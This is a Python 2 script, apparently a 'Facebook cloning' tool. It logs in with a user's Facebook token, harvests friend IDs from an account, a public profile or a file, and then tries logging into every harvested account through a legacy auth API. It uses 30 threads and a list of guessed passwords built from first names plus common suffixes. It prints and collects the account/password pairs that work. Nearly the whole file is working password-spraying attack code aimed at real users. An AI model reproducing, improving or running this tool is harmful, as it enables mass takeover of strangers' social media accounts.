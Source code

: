 #!/usr/bin/python2 
 #coding=utf-8 
  
 import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib 
 from multiprocessing.pool import ThreadPool 
 try: 
     import requests 
 except ImportError: 
     os.system('pip2 install requests') 
 try: 
     import mechanize 
 except ImportError: 
     os.system('pip2 install mechanize') 
     os.system('python2 B4.py') 
  
 from requests.exceptions import ConnectionError 
 from mechanize import Browser 
  
 #### browser #### 
 reload(sys) 
 sys.setdefaultencoding('utf8') 
 br = mechanize.Browser() 
 br.set_handle_robots(False) 
 br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) 
 br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')] 
  
 #### colours #### 
 B='\033[1;94m' 
 R='\033[1;91m' 
 G='\033[1;92m' 
 W='\033[1;97m' 
 S='\033[1;96m' 
 P='\033[1;95m' 
 Y='\033[1;93m' 
  
 #### exit #### 
 def exb(): 
         print (R + 'Exit') 
         os.sys.exit() 
  
 #### clear #### 
 def cb(): 
     os.system('clear') 
  
 #### time sleep #### 
 def t(): 
     time.sleep(1) 
 def t1(): 
     time.sleep(0.01) 
  
 #### print std #### 
 def psb(z): 
         for e in z + '\n': 
                 sys.stdout.write(e) 
                 sys.stdout.flush() 
                 t1() 
  
 #### token remove #### 
 def trb(): 
     os.system('rm -rf token.txt') 
  
 ##### LOGO ##### 
 logo=''' 
 \033[1;94m ┈┈┈┈╱▔▔▔▔╲┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈╱▔▔▔▔╲┈┈┈┈ 
 \033[1;94m ┈┈┈▕▕B4 M4▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕W4 M4▏▏┈┈┈ 
 \033[1;94m ┈┈┈▕▕▂╱╲▂▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕▂╱╲▂▏▏┈┈┈ 
 \033[1;94m ┈┈┈┈╲┊┊┊┊╱┈┈┈┈\033[1;94mWajidAli.\033[1;91m┈┈┈┈╲┊┊┊┊╱┈┈┈┈ 
 \033[1;96m ┈┈┈┈▕╲▂▂╱▏┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈▕╲▂▂╱▏┈┈┈┈ 
 \033[1;96m ╱▔▔▔▔┊┊┊┊▔▔▔▔╲☞☞☞☞☞☞\033[1;91m☜☜☜☜☜╱▔▔▔▔┊┊┊┊▔▔▔▔╲ 
 \033[1;96m................\033[1;93mWajidAlih\033[1;91m............... 
 \033[1;96m................\033[1;93m✬🄵🄰🄲🄴🄱🄾🄾🄺✬\033[1;91m.............. 
  
 \033[1;96m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 
  
 \033[1;91m☞ Auther     : W4_WAJID_FB_MASTER 
 \033[1;92m☞ WhatsApp   : 01837198492
 \033[1;95m☞ TIKTOK    : wajidali127867
  
 \033[1;93m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 
                                 ''' 
 back=0 
 successfull=[] 
 checkpoint=[] 
 oks=[] 
 cps=[] 
 id=[] 
  
 #### login #### 
 def login(): 
         cb() 
         try: 
                 tb=open('token.txt', 'r') 
                 menu()  
         except (KeyError,IOError): 
                 cb() 
                 print (logo) 
                 print (R + '◈━━━━▷' + S + ' Login With ✬🄵🄰🄲🄴🄱🄾🄾🄺✬ ' + R + '◁━━━━◈') 
                 print 
                 id=raw_input(S + '[☆] ' + S + 'Email: ' + G +'') 
                 pwd=getpass.getpass(S + '[♡] ' + R + 'Password : ') 
                 data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pwd)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") 
                 z=json.load(data) 
                 if 'access_token' in z: 
                     st = open("token.txt", "w") 
                     st.write(z["access_token"]) 
                     st.close() 
                     print (S + '[☆]' + Y + ' Login successfull 100% ✓') 
                     os.system('xdg-open https://youtube.com/channel/UCRnpWUOCz3Sb1RAX3GK4r0A') 
                     menu() 
                 else: 
                     if "www.facebook.com" in z["error_msg"]: 
                         print (R + 'Account has a checkpoint !') 
                         t() 
                         login() 
                     else: 
                         print (R + 'number/user id/ password is wrong !') 
                         trb() 
                         t() 
                         login() 
 def menu(): 
         cb() 
         try: 
                 tb=open('token.txt','r').read() 
         except IOError: 
                 print (R + 'Token Invalid !') 
                 trb() 
                 t() 
                 login() 
         try: 
                 otw=requests.get('https://graph.facebook.com/me?access_token='+tb) 
                 a=json.loads(otw.text) 
         except KeyError: 
                 print (G + 'Account has a checkpoint !') 
                 trb() 
                 t() 
                 login() 
         except requests.exceptions.ConnectionError: 
                 print (W + 'No internet connection !') 
                 t() 
                 exb() 
         cb() 
         print (logo) 
         print (S + '[☆] ' + G + 'ID Name: ' + R + a['name']) 
         print (S + '[☆] ' + G + 'User ID: ' + R + a['id']) 
         print 
         print (S + 50*'-') 
         print 
         print (S + '[' + P + '☞1' + S + ']' + S + ' Fast Cloning New Update') 
         print (S + '[' + P + '☞2' + S + ']' + S + ' Update B4_BALOCH Tool') 
         print (S + '[' + P + '☞3' + S + ']' + S + ' B4_BALOCH WhatsApp Group') 
         print (S + '[' + Y + '☞4' + S + ']' + G + ' Log Out') 
         print (S + '[' + Y + '☞0' + S + ']' + R + ' Exit') 
         print 
         print (S + 50*'-') 
         print 
         mb() 
  
  
 def mb(): 
         bm=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ') 
         if bm =='': 
                 print (R + 'Select a valid option !') 
                 mb() 
         elif bm =='1': 
                 pak() 
         elif bm =='2': 
             os.system('rm -rf $HOME/W4_WAJID') 
             os.system('cd $HOME && git clone https://github.com/wajidali001/Wajid') 
             cb() 
             print (logo) 
             psb('☆10%') 
             psb('☆☆20%') 
             psb('☆☆☆30%') 
             psb('☆☆☆☆40%') 
             psb('☆☆☆☆☆50%') 
             psb('☆☆☆☆☆☆60%') 
             psb('☆☆☆☆☆☆☆70%') 
             psb('☆☆☆☆☆☆☆☆80%') 
             psb('☆☆☆☆☆☆☆☆☆90%') 
             psb('☆☆☆☆☆☆☆☆☆☆100%') 
             psb('Frends login new Account✓') 
             psb('WhatsApp Num no✓') 
             psb('WellCome To W4_WAJID') 
             psb('Congratulations W4_WAJID Tool Has Been Updated Successfully') 
             psb('🔓User Name☆ WAJIDALI✓') 
             psb('🔓Password ☆ 786786✓') 
             psb('Subscrib My Youtube Channel B4 BALOCH M4 MASTER✓') 
             psb('Please Login Again') 
             time.sleep(2) 
             os.system('cd $HOME/W4_WAJIDALI && python2 B4.py') 
         elif bm =='3': 
             os.system('xdg-open https://chat.whatsapp.com/BcmyQPBz6lz3t6oVN8wLoi') 
             menu() 
         elif bm =='4': 
                 psb('Token Has Been Removed') 
                 trb() 
                 t() 
                 exb() 
         elif bm =='0': 
             exb() 
         else: 
                 print (R+'Fill in correctly !') 
                 mb() 
  
  
 def pak(): 
         global tb 
         try: 
                 tb=open('token.txt','r').read() 
         except IOError: 
                 print (R + ' Invalid Token !') 
                 trb() 
                 t() 
                 login() 
         cb() 
         print (logo) 
         print (S + '[' + P + '☞1' + S + ']' + P + ' Clone With Friend List') 
         print (S + '[' + P + '☞2' + S + ']' + P + ' Clone From Public Account') 
         print (S + '[' + Y + '☞3' + S + ']' + Y + ' Clone From File') 
         print (S + '[' + R + '☞0' + S + ']' + R + ' Back') 
         print 
         print (S + 50*'-') 
         print 
         pb() 
  
 def pb(): 
         bp=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ') 
         if bp =='': 
                 print (R + 'Select a valid option !') 
                 pb() 
         elif bp =='1': 
                 cb() 
                 print (logo) 
                 r=requests.get('https://graph.facebook.com/me/friends?access_token='+tb) 
                 z=json.loads(r.text) 
                 for s in z['data']: 
                         id.append(s['id']) 
         elif bp=='2': 
                 cb() 
                 print (logo) 
                 idt=raw_input(S + '[☆] ' + G + 'Put Public User ID/User Name: ' + W + '') 
                 cb() 
                 print (logo) 
                 try: 
                         jok=requests.get('https://graph.facebook.com/'+idt+'?access_token='+tb) 
                         op=json.loads(jok.text) 
                         psb(S + '[☆]' + G + ' Account  Name: ' + W + op['name']) 
                 except KeyError: 
                         print (R + ' ID not found !') 
                         raw_input(R + ' Back') 
                         pak() 
                 r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb) 
                 z=json.loads(r.text) 
                 for i in z['data']: 
                         id.append(i['id']) 
         elif bp =='3': 
                 cb() 
                 print (logo) 
                 try: 
                         idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '') 
                         for line in open(idlist,'r').readlines(): 
                                 id.append(line.strip()) 
                 except IOError: 
                         print (R + ' File Not Fount !') 
                         raw_input(R + ' Back') 
                         pak() 
         elif bp =='0': 
                 menu() 
         else: 
                 print (R + ' Select a valid option !') 
                 pb() 
         print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id))) 
         psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z') 
         print 
         print (S + 50*'-') 
         print 
         def main(arg): 
                 global cps, oks 
                 user=arg 
                 try: 
                         h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb) 
                         j=json.loads(h.text) 
                         ps1=('786786') 
                         dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                         k=json.load(dt) 
                         if 'www.facebook.com' in k['error_msg']: 
                             print(S+'[CP] ♡ '+user+' ♡ '+ps1) 
                             cps.append(user+ps1) 
                         else: 
                             if 'access_token' in k: 
                                 print (G+'[OK] ♡ '+user+' ♡ '+ps1) 
                                 oks.append(user+ps1) 
                             else: 
                                 ps2=(j['first_name']+'123') 
                                 dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                                 k=json.load(dt) 
                                 if 'www.facebook.com' in k['error_msg']: 
                                     print(S+'[CP] ♡ '+user+' ♡ '+ps2) 
                                     cps.append(user+ps2) 
                                 else: 
                                     if 'access_token' in k: 
                                         print(G+'[OK] ♡ '+user+' ♡ '+ps2) 
                                         oks.append(user+ps2) 
                                     else: 
                                         ps3=(j['first_name']+'786') 
                                         dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                                         k=json.load(dt) 
                                         if 'www.facebook.com' in k['error_msg']: 
                                             print(S+'[CP] ♡ '+user+' ♡ '+ps3) 
                                             cps.append(user+ps3) 
                                         else: 
                                             if 'access_token' in k: 
                                                 print(G+'[OK] ♡ '+user+' ♡ '+ps3) 
                                                 oks.append(user+ps3) 
                                             else: 
                                                 ps4=(j['first_name']+'12345') 
                                                 dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                                                 k=json.load(dt) 
                                                 if 'www.facebook.com' in k['error_msg']: 
                                                     print(S+'[CP] ♡ '+user+' ♡ '+ps4) 
                                                     cps.append(user+ps4) 
                                                 else: 
                                                     if 'access_token' in k: 
                                                         print(G+'[OK] ♡ '+user+' ♡ '+ps4) 
                                                         oks.append(user+ps4) 
                                                     else: 
                                                         ps5=('Pakistan') 
                                                         dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                                                         k=json.load(dt) 
                                                         if 'www.facebook.com' in k['error_msg']: 
                                                             print(S+'[CP] ♡ '+user+' ♡ '+ps5) 
                                                             cps.append(user+ps5) 
                                                         else: 
                                                             if 'access_token' in k: 
                                                                 print(G+'[OK] ♡ '+user+' ♡ '+ps5) 
                                                                 oks.append(user+ps5) 
                                                             else: 
                                                                 ps6=(j['first_name']+'khan') 
                                                                 dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') 
                                                                 k=json.load(dt) 
                                                                 if 'www.facebook.com' in k['error_msg']: 
                                                                     print(S+'[CP] ♡ '+user+' ♡ '+ps6) 
                                                                     cps.append(user+ps6) 
                                                                 else: 
                                                                     if 'access_token' in k: 
                                                                         print(G+'[OK] ♡ '+user+' ♡ '+ps6) 
                                                                         oks.append(user+ps6) 
                 except: 
                         pass 
         p=ThreadPool(30) 
         p.map(main, id) 
         print 
         print(S+50*'-') 
         print 
         print(S+'Process has been completed CP ID Open After 7 Days ') 
         print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps))) 
         print(S+'BlackMafia')      
         print 
         raw_input(R + 'Back') 
         os.system('python2 B4.py') 
 if __name__=='__main__': 
     login()